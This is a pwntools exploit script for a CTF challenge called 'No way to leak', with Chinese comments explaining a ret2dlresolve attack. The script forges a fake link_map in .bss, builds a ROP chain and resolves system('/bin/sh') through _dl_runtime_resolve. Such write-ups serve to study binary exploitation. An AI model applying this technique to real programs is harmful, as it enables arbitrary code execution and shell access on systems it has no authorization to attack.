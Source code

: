 # No way to leak

```python
from pwn import *  
context(os='linux',arch='amd64',log_level='debug', terminal=['wt.exe','wsl'])

# r = gdb.debug("./pwn2",'break vuln')
# r = process('./pwn')  
r = remote('127.0.0.1',13820)

elf = ELF('./pwn')  
libc = ELF('./libc-2.31.so')  
read_plt = elf.plt['read']  
setbuf_got = elf.got['setbuf']  
vuln_addr = elf.sym['vuln']  
  
#bss  
bss = 0x404080  
bss_stage = bss + 0x100
l_addr =  libc.sym['system'] -libc.sym['setbuf']  # l_addr = -769472, 通常为负数
  
pop_rdi = 0x000000000040115e  
#pop rsi ; pop r15 ; ret  
pop_rsi = 0x0000000000401160  
#用于解析符号dl_runtime_resolve  
plt_load = 0x401026

def fake_Linkmap_payload(fake_linkmap_addr,known_func_ptr,offset):
    # &(2**64-1)是因为offset为负数，如果不控制范围，p64后会越界，发生错误
    linkmap = p64(offset & (2 ** 64 - 1))#l_addr

    # fake_linkmap_addr + 8，也就是DT_JMPREL，至于为什么有个0，可以参考IDA上.dyamisc的结构内容
    linkmap += p64(0) # 可以为任意值
    linkmap += p64(fake_linkmap_addr + 0x18) # 这里的值就是伪造的.rel.plt的地址

    # fake_linkmap_addr + 0x18,fake_rel_write,因为write函数push的索引是0，也就是第一项
    linkmap += p64((fake_linkmap_addr + 0x30 - offset) & (2 ** 64 - 1)) # Rela->r_offset,正常情况下这里应该存的是got表对应条目的地址，解析完成后在这个地址上存放函数的实际地址，此处我们只需要设置一个可读写的地址即可 
    linkmap += p64(0x7) # Rela->r_info,用于索引symtab上的对应项，7>>32=0，也就是指向symtab的第一项
    linkmap += p64(0)# Rela->r_addend,任意值都行

    linkmap += p64(0)#l_ns

    # fake_linkmap_addr + 0x38, DT_SYMTAB 
    linkmap += p64(0) # 参考IDA上.dyamisc的结构
    linkmap += p64(known_func_ptr - 0x8) # 这里的值就是伪造的symtab的地址,为已解析函数的got表地址-0x8

    linkmap += b'/bin/sh\x00'
    linkmap = linkmap.ljust(0x68,b'A')
    linkmap += p64(fake_linkmap_addr) # fake_linkmap_addr + 0x68, 对应的值的是DT_STRTAB的地址，由于我们用不到strtab，所以随意设置了一个可读区域
    linkmap += p64(fake_linkmap_addr + 0x38) # fake_linkmap_addr + 0x70 , 对应的值是DT_SYMTAB的地址
    linkmap = linkmap.ljust(0xf8,b'A')
    linkmap += p64(fake_linkmap_addr + 0x8) # fake_linkmap_addr + 0xf8, 对应的值是DT_JMPREL的地址
    return linkmap

fake_link_map = fake_Linkmap_payload(bss_stage, setbuf_got ,l_addr)# 伪造link_map

payload = flat( 'a' * 120 ,pop_rdi, 0 , pop_rsi , bss_stage ,read_plt ,# 把link_map写到bss段上
                pop_rsi , 0   , # 使栈十六字节对齐，不然调用不了system
                pop_rdi , bss_stage + 0x48  , plt_load , bss_stage , 0 # 把/bin/sh传进rdi，并且调用_dl_rutnime_resolve函数，传入伪造好的link_map和索引
)
```